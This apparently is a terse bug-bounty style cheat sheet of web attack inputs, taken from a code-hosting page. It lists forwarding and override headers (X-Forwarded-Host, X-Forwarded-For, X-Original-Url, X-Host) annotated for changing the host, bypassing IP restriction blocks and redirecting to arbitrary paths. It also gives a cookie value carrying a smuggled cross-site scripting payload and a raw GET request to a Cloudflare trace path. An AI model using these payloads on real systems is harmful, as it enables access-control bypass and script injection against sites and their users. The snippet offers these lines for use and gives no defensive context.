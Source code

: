 
////// HOST headers
X-Forwarded-Host: /// change host
X-Forwarded-Scheme: /// change host
X-Forwarded-For: /// bypass ip restriction block 
X-Original-Url: /// redirect to any path 
X-Host: /// if you have victim user agent


///// HOST cookie
any-cookie=someString"-alert(1)-"someString


GET /cd-cgi/trace HTTP/1.1
Host: cloudflare.com